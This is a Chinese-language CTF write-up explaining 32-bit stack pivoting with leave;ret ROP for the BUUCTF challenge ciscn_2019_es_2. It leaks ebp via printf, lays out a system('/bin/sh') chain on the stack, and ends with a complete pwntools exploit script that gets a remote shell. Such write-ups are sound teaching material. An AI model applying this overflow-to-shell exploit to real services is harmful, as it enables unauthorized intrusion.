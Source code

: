 ### 32 位栈迁移 ROP

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67a87c72d0e0a243d4fd6634.png)

漏洞代码如下：

![](https://pic1.imgdb.cn/item/67a87c84d0e0a243d4fd6673.png)

缓冲区 s 能构成溢出，但是 ret 太小了构造不了完整的 ROP

![](https://pic1.imgdb.cn/item/67a87cbbd0e0a243d4fd6743.png)

当缓冲区溢出空间不足以布置完整的 ROP 链时，利用栈迁移扩展攻击空间

在 32 位中关键指令是 `leave; ret` 主要用于 **改变 ESP**，让程序跳转到新的栈地址

因为 `leave` 会 **将 `esp` 设为 `ebp`**，并且 `ebp` 由我们控制，所以可以实现 **栈迁移**

```
mov ebp, new_stack_address  ; 控制 ebp
leave                       ; esp = ebp, pop ebp
ret                         ; 弹出新的返回地址并跳转
```

在 nop 处下断点调试

![](https://pic1.imgdb.cn/item/67a8876ad0e0a243d4fd6ca7.png)

ebp 距离我们的输入差 0x38，ebp - 0x38 就拿到了我们参数 s 在栈上的位置

![](https://pic1.imgdb.cn/item/67a8d725d0e0a243d4fda2e4.png)

由于我们要用到 leave;ret 来劫持栈，所以先找一下 levae;ret 的位置

![](https://pic1.imgdb.cn/item/67a8ce28d0e0a243d4fda1d4.png)

![](https://pic1.imgdb.cn/item/67d8f66a88c538a9b5c01e19.png)

可以看到执行 leave 后，ebp 已经是我们修改的了

但是 esp 还不是，因为 pop ebp 和 esp 没有关系

但是如果这时候我再执行一次 leave，那么我们不是就可以 mov esp,ebp，把 ebp 的值赋值给 esp，那么我们就修改 esp 了

这也是为什么返回地址要改成 leave_ret 指令

![](https://pic1.imgdb.cn/item/67d8f6a588c538a9b5c01e1f.png)

![](https://pic1.imgdb.cn/item/67a8d4b1d0e0a243d4fda2ba.png)

可以看到，这时候 ret 指令还没执行，而且 esp 已经指向我们 system 的地址了

有些人注意到了，system 地址之前有四个 a，而且我们一开始想要让他修改成的地址就是 0xff83c1b0

为什么现在 esp 变成了0xff83c1b4，因为 leave 相当于 mov esp,ebp 和 pop ebp 两条指令

mov 执行完，esp 变成 0xff83c1b0，然后 pop 执行完，esp 变成 0xff83c1b4，ebp 变成了 0x61616161，也就是四个 a

![](https://pic1.imgdb.cn/item/67d8f6f088c538a9b5c01e27.png)

![](https://pic1.imgdb.cn/item/67a8d51bd0e0a243d4fda2bf.png)

`printf()` 函数在输出的时候遇到 `\0` 会停止

如果我们将参数 s 全部填满，这样就没法在末尾补上 `\0`，那样就会将 ebp 连带着输出

```python
payload= b'a' * 0x27 + b'b'

r.sendline(payload)
r.recvuntil('b')

ebp = u32(r.recv(4))
```

第一个 `'aaaa'` 随便输入，如果一开始将 `system` 函数写第一个

那么我们在用 `leave；ret` 劫持栈的时候要抬高 4 字节

接着跟上 `system` 函数的地址

后面是执行完 `system` 函数后的返回地址，这边也可以随便写

之后这个地址指向的是我们写在栈上的 `'/bin/sh'` 字符串

```python
payload = b'aaaa' + p32(sys) + p32(0) + p32(ebp - 0x28) + b"/bin/sh"
```

将 payload 补齐长度

```python
payload = payload.ljust(0x28,'\x00')
```

栈劫持，获取 shell

```python
payload += p32(ebp - 0x38) + p32(leave_ret)
```

```python
from pwn import *

p = remote('node5.buuoj.cn',28813)
elf = ELF('./ciscn_2019_es_2')
leave_ret = 0x08048562

p.recvline()

payload1 = b'a' * 0x25 + b'b'* 3

p.send(payload1)
p.recvuntil('abbb')

ebp = u32(p.recv(4))

payload2 = b'a' * 0x4 + p32(elf.plt['system']) + p32(0) + p32(ebp - 0x28) + b"/bin/sh"
payload2 = payload2.ljust(0x28, b'\x00')

# p32(ebp - 0x38)：覆盖栈上的 ebp，调整栈指针，使其指向 payload2 的起始位置
# p32(leave_ret)：执行 leave; ret，完成栈迁移，进入 ROP 执行
payload2 += p32(ebp - 0x38) + p32(leave_ret)

p.sendline(payload2)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67a8cda1d0e0a243d4fda1c2.png)